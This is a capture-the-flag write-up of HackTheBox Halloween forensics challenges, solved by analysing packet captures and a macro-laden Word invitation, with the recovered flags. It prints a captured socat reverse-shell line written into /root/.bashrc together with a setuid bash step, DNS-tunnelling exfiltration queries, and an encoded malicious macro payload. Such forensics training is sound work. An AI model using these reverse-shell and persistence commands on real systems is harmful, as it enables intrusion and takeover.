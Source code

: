 # **Wrong Spooky Season**
```
"I told them it was too soon and in the wrong season to deploy such a website, but they assured me that theming it properly would be enough to stop the ghosts from haunting us.
I was wrong." Now there is an internal breach in the `Spooky Network` and you need to find out what happened. 
Analyze the the network traffic and find how the scary ghosts got in and what they did.
```

First challenge, they give us one pcap file. There're two ways you can solve this.

*Unintended solution:*

You can simply use `strings` to see what inside the pcap file.

```
┌──(kali㉿devilmachine)-[/mnt/d/WSL_LAB/Workplace/htb-boo/forensics_wrong_spooky_season]
└─$ strings *.pcap
...
echo 'socat TCP:192.168.1.180:1337 EXEC:sh' > /root/.bashrc && echo "==gC9FSI5tGMwA3cfRjd0o2Xz0GNjNjYfR3c1p2Xn5WMyBXNfRjd0o2eCRFS" | rev > /dev/null && chmod +s /bin/bash
VDc0c
'"FO
'"FO
I;r?
ls -lha
'"FO
'"FO
I;rtotal 20K
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 .
drwxr-xr-x 1 root root 4.0K Oct 10 17:28 ..
```

So there is a base64 encoded string. Reverse it then decode, we have the flag.

*Intended solution:*

Open the pcap file then follow TCP stream to the last. Here is the result:

~pic~


## FLAG: HTB{j4v4_5pr1ng_just_b3c4m3_j4v4_sp00ky!!}
___

# **Trick or Breach**
```
Our company has been working on a secret project for almost a year. None knows about the subject, although rumor is that it is about an old Halloween legend where an old witch in the woods invented a potion to bring pumpkins to life, but in a more up-to-date approach.
Unfortunately, we learned that malicious actors accessed our network in a massive cyber attack. Our security team found that the hack had occurred when a group of children came into the office's security external room for trick or treat.
One of the children was found to be a paid actor and managed to insert a USB into one of the security personnel's computers, which allowed the hackers to gain access to the company's systems.
We only have a network capture during the time of the incident. Can you find out if they stole the secret project?
```

We have another pcap file in this challenge. Let's see what inside:

~pic~

If you notice, there're some strange URLs that were captured during the transmission. This is DNS Tunneling - one of the real world attack. Those strange URLs that you can see in wireshark were encoded or encrypted. Let's find out by extracting those URLs.

I filtered the query IP then copied whole data to a file

~pic~

```
1	0.000000	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xa49f A 504b0304140008080800a52c47550000000000000000000000.pumpkincorp.com
3	1.062969	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xdd23 A 0018000000786c2f64726177696e67732f64726177696e6731.pumpkincorp.com
5	2.069426	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xcf3f A 2e786d6c9dd05d6ec2300c07f013ec0e55de695a181343145e.pumpkincorp.com
7	3.155776	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xb53f A d04e300ee0256e1b918fca0ea3dc7ed14a36697b011e6dcb3f.pumpkincorp.com
9	4.236338	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x6195 A f9efcd6e74b6f84462137c23eab212057a15b4f15d230eef6f.pumpkincorp.com
11	5.254457	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x5634 A b395283882d76083c7465c90c56efbb41935adcfbca722ed7b.pumpkincorp.com
13	6.298151	192.168.1.10	147.182.172.189	DNS	126	Standard query 0xacfd A 5ea7b2117d8cc35a4a563d3ae0320ce8d3b40de420a6923aa9.pumpkincorp.com
15	7.319849	192.168.1.10	147.182.172.189	DNS	126	Standard query 0x8482 A 09ce497656ceabea45f240089a7bc4b89f26e2eac1039a03e3.pumpkincorp.com
```

Then I wrote this script to extract the encoded parts.

```py
f = open('qry.txt','r').readlines()
data = [i.split()[-1].replace('.pumpkincorp.com','') for i in f]
data = "".join(data)
wb = bytes.fromhex("".join(data))
wf = open('sus','wb')
wf.write(wb)
```
## FLAG: HTB{M4g1c_c4nn0t_pr3v3nt_d4t4_br34ch}
___
# **Halloween Invitation**
```
An email notification pops up. It's from your theater group. Someone decided to throw a party. The invitation looks awesome, but there is something suspicious about this document. Maybe you should take a look before you rent your banana costume.
```

We were given a suspicious file named `invitation.docm`. When I opened it up, it said there was a macro content.  There are two ways you can get this macro. First you can use `olevba` - a powerful tool to extract macro from .doc file. Second, you can just simply open it in doc file xD

I chose first and here is the result:

~pic~

That's the suspicious content which we need to decode.

```py
import base64
flag = ""
flag += "74 65 66 122 65 68 48 65 74 119 65 51 65 68 99 65 76 103 65 51 65 68 81 65 76 103 "
flag += "65 120 65 68 107 65 79 65 65 117 65 68 85 65 77 103 65 54 65 68 103 65 77 65 65 52 "
flag += "65 68 65 65 74 119 65 55 65 67 81 65 97 81 65 57 65 67 99 65 90 65 65 48 65 68 77 "
flag += "65 89 103 66 106 65 71 77 65 78 103 66 107 65 67 48 65 77 65 65 48 65 68 77 65 90 "
flag += "103 65 121 65 68 81 65 77 65 65 53 65 67 48 65 78 119 66 108 65 71 69 65 77 103 65 "
flag += "122 65 71 69 65 77 103 66 106 65 67 99 65 79 119 65 107 65 72 65 65 80 81 65 110 65 "
flag += "71 103 65 100 65 66 48 65 72 65 65 79 103 65 118 65 67 56 65 74 119 65 55 65 67 81 "
flag += "65 100 103 65 57 65 69 107 65 98 103 66 50 65 71 56 65 97 119 66 108 65 67 48 65 85 "
flag += "103 66 108 65 72 77 65 100 65 66 78 65 71 85 65 100 65 66 111 65 71 56 65 90 65 65 "
flag += "103 65 67 48 65 86 81 66 122 65 71 85 65 81 103 66 104 65 72 77 65 97 81 66 106 65 "
flag += "70 65 65 89 81 66 121 65 72 77 65 97 81 66 117 65 71 99 65 73 65 65 116 65 70 85 65 "
flag += "99 103 66 112 65 67 65 65 74 65 66 119 65 67 81 65 99 119 65 118 65 71 81 65 78 65 "
flag += "65 122 65 71 73 65 89 119 66 106 65 68 89 65 90 65 65 103 65 67 48 65 83 65 66 108 "
flag += "65 71 69 65 90 65 66 108 65 72 73 65 99 119 65 103 65 69 65 65 101 119 65 105 65 69 "
flag += "69 65 100 81 66 48 65 71 103 65 98 119 66 121 65 71 107 65 101 103 66 104 65 72 81 "
flag += "65 97 81 66 118 65 71 52 65 73 103 65 57 65 67 81 65 97 81 66 57 65 68 115 65 100 "
flag += "119 66 111 65 71 107 65 98 65 66 108 65 67 65 65 75 65 65 107 65 72 81 65 99 103 66 "
flag += "49 65 71 85 65 75 81 66 55 65 67 81 65 89 119 65 57 65 67 103 65 83 81 66 117 65 72 "
flag += "89 65 98 119 66 114 65 71 85 65 76 81 66 83 65 71 85 65 99 119 66 48 65 69 48 65 90 "
flag += "81 66 48 65 71 103 65 98 119 66 107 65 67 65 65 76 81 66 86 65 72 77 65 90 81 66 67 "
flag += "65 71 69 65 99 119 66 112 65 71 77 65 85 65 66 104 65 72 73 65 99 119 66 112 65 71 "
flag += "52 65 90 119 65 103 65 67 48 65 86 81 66 121 65 71 107 65 73 65 65 107 65 72 65 65 "
flag += "74 65 66 122 65 67 56 65 77 65 65 48 65 68 77 65 90 103 65 121 65 68 81 65 77 65 65 "
flag += "53 65 67 65 65 76 81 66 73 65 71 85 65 89 81 66 107 65 71 85 65 99 103 66 122 65 67 "
flag += "65 65 81 65 66 55 65 67 73 65 81 81 66 49 65 72 81 65 97 65 66 118 65 72 73 65 97 "
flag += "81 66 54 65 71 69 65 100 65 66 112 65 71 56 65 98 103 65 105 65 68 48 65 74 65 66 "
flag += "112 65 72 48 65 75 81 65 55 65 71 107 65 90 103 65 103 65 67 103 65 74 65 66 106 65 "
flag += "67 65 65 76 81 66 117 65 71 85 65 73 65 65 110 65 69 52 65 98 119 66 117 65 71 85 "
flag += "65 74 119 65 112 65 67 65 65 101 119 65 107 65 72 73 65 80 81 66 112 65 71 85 65 101 "
flag += "65 65 103 65 67 81 65 89 119 65 103 65 67 48 65 82 81 66 121 65 72 73 65 98 119 66 "
flag += "121 65 69 69 65 89 119 66 48 65 71 107 65 98 119 66 117 65 67 65 65 85 119 66 48 65 "
flag += "71 56 65 99 65 65 103 65 67 48 65 82 81 66 121 65 72 73 65 98 119 66 121 65 70 89 "
flag += "65 89 81 66 121 65 71 107 65 89 81 66 105 65 71 119 65 90 81 65 103 65 71 85 65 79 "
flag += "119 65 107 65 72 73 65 80 81 66 80 65 72 85 65 100 65 65 116 65 70 77 65 100 65 66 "
flag += "121 65 71 107 65 98 103 66 110 65 67 65 65 76 81 66 74 65 71 52 65 99 65 66 49 65 "
flag += "72 81 65 84 119 66 105 65 71 111 65 90 81 66 106 65 72 81 65 73 65 65 107 65 72 73 "
flag += "65 79 119 65 107 65 72 81 65 80 81 66 74 65 71 52 65 100 103 66 118 65 71 115 65 90 "
flag += "81 65 116 65 70 73 65 90 81 66 122 65 72 81 65 84 81 66 108 65 72 81 65 97 65 66 118 "
flag += "65 71 81 65 73 65 65 116 65 70 85 65 99 103 66 112 65 67 65 65 74 65 66 119 65 67 "
flag += "81 65 99 119 65 118 65 68 99 65 90 81 66 104 65 68 73 65 77 119 66 104 65 68 73 65 "
flag += "89 119 65 103 65 67 48 65 84 81 66 108 65 72 81 65 97 65 66 118 65 71 81 65 73 65 "
flag += "66 81 65 69 56 65 85 119 66 85 65 67 65 65 76 81 66 73 65 71 85 65 89 81 66 107 65 "
flag += "71 85 65 99 103 66 122 65 67 65 65 81 65 66 55 65 67 73 65 81 81 66 49 65 72 81 65 "
flag += "97 65 66 118 65 72 73 65 97 81 66 54 65 71 69 65 100 65 66 112 65 71 56 65 98 103 "
flag += "65 105 65 68 48 65 74 65 66 112 65 72 48 65 73 65 65 116 65 69 73 65 98 119 66 107 "
flag += "65 72 107 65 73 65 65 111 65 70 115 65 85 119 66 53 65 72 77 65 100 65 66 108 65 71 "
flag += "48 65 76 103 66 85 65 71 85 65 101 65 66 48 65 67 52 65 82 81 66 117 65 71 77 65 98 "
flag += "119 66 107 65 71 107 65 98 103 66 110 65 70 48 65 79 103 65 54 65 70 85 65 86 65 66 "
flag += "71 65 68 103 65 76 103 66 72 65 71 85 65 100 65 66 67 65 72 107 65 100 65 66 108 65 "
flag += "72 77 65 75 65 65 107 65 71 85 65 75 119 65 107 65 72 73 65 75 81 65 103 65 67 48 "
flag += "65 97 103 66 118 65 71 107 65 98 103 65 103 65 67 99 65 73 65 65 110 65 67 107 65 "
flag += "102 81 65 103 65 72 77 65 98 65 66 108 65 71 85 65 99 65 65 103 65 68 65 65 76 103 "
flag += "65 52 65 72 48 65 83 65 66 85 65 69 73 65 101 119 65 49 65 72 85 65 99 65 65 122 65 "
flag += "72 73 65 88 119 65 122 65 68 81 65 78 81 66 53 65 70 56 65 98 81 65 48 65 71 77 65 "
flag += "99 103 65 119 65 68 85 65 102 81 65 61"
#print(flag)
adu = flag.split()
hehe = ""
for i in adu:
    hehe += chr(int(i))
#print(hehe)
#bruh = flag.replace(" ","")
print(base64.b64decode(hehe).decode("UTF-8"))
```
## FLAG: HTB{5up3r_345y_m4cr05}

___
# **POOF**

## FLAG: HTB{n3v3r_tru5t_4ny0n3_3sp3c14lly_dur1ng_h4ll0w33n}

___
# **Downgrade**
## FLAG: HTB{4n0th3r_d4y_4n0th3r_d0wngr4d3...}